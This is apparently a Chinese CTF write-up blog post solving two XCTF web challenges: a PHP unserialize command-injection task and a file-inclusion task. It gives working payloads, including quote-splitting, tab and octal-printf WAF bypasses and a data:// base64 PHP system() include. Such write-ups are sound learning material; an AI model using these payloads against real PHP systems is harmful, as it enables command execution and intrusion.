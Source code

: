 ```yaml
---
layout:     post
title:      WriteUp2
subtitle:   
date:       2022-10-06
author:     Distiny
header-img: img/post-bg-mma-5.jpg
catalog: true
tags:
    - CTF
    - web安全
---
```


### [unseping](https://adworld.xctf.org.cn/challenges/details?hash=3714626e-3a5b-11ed-abf3-fa163e4fa609&task_category_id=3)

这道题好难，看WP做的

```php
<?php
highlight_file(__FILE__);

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
?>
```

进入后看到的代码如上，先研究代码

`@unserialize(base64_decode($ctf))`对于post的参数解码后反序列化

`__wakeup`用于unserialize时会调用该方法

其中的`waf()`用于过滤，使用了`preg_match_all`函数

最后在析构函数中in_array比较，检测method是不是在数组array("ping")里面

```php
<?php
highlight_file(__FILE__);

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array(urldecode('pwd')));
echo urlencode(base64_encode(serialize($a)));
?>
```

构造序列化字符串，可以查看到当前目录是/var/www/html

`$a=new ease('ping',array(urldecode('l\'\'s')));`这里使用了单引号隔开绕过waf

得到的结果如下：

> array(2) { [0]=> string(12) "flag_1s_here" [1]=> string(9) "index.php" }

之后查看flag_1s_here应该就可以，使用`'ca\'\'t%09fla\'\'g_1s_here'`

结果发现是空的......是因为权限不够.....劝退了，后面的方法见https://blog.csdn.net/JIN_7X/article/details/127062413

然后看攻防世界里面给的WP，它是这么写的

```php
$a = new ease("ping",array('$(printf	"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")'));
$b = serialize($a);
echo $b;
echo base64_encode($b);
```

那一长串8进制ASCII解码后是cat flag_1s_here/flag_831b69012c67b35f.php，原来前面的是个目录，目录里面的才是flag，而且这招printf加ASCII编码的方法直接绕过了，真心秀！

那按照之前的方法应该是

`$a=new ease('ping',array(urldecode('l\'\'s%09fla\'\'g_1s_here')));`

发现可以找到flag_831b69012c67b35f.php，然后再查看文件，具体绕过方法以后再学吧，就到这里。



### [file_include](https://adworld.xctf.org.cn/challenges/details?hash=ceb014e8-3a5a-11ed-abf3-fa163e4fa609&task_category_id=3)

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

进去同样是代码，可以通过include进行文件上传，但是我试了半天都失败了

证明又有过滤！遇事不决，WP

```
filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=
base64解密为<?php system("ls")?>
```

data://是一种伪协议，本题中要用php://伪协议。

不说了，我没完全搞懂，直接上链接

https://blog.csdn.net/cocoaiu/article/details/126319957

告辞！以后再来！